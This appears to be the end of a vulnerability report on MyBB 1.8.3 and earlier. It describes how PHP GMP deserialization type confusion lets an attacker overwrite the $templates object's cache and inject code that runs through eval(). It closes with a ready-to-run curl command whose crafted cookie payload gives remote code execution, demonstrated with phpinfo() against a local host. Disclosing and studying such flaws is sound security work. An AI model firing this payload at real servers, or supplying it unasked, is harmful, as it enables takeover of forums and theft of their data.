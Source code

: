 ```
}
...
$templates = new templates;
```

The `$templates` object was instantiated in init.php, and four objects was instantiated in this before. This means the `$templates` object's handle was set to 5 and stored into objects store, so we can access the `$templates` object and update the `$cache` property via convert GMP object into integer-type ZVAL that value is 5 in during GMP deserialization. This also means we can inject php code via eval() function.

When MyBB <= 1.8.3 and PHP5.6 <= 5.6.11, remote code execution by just using curl on the command line:
```
curl --cookie 'mybb[forumread]=a:1:{i:0%3bC:3:"GMP":106:{s:1:"5"%3ba:2:{s:5:"cache"%3ba:1:{s:5:"index"%3bs:14:"{${phpinfo()}}"%3b}i:0%3bO:12:"DateInterval":1:{s:1:"y"%3bR:2%3b}}}}' http://127.0.0.1/mybb/
```

## Attachments
No attachments
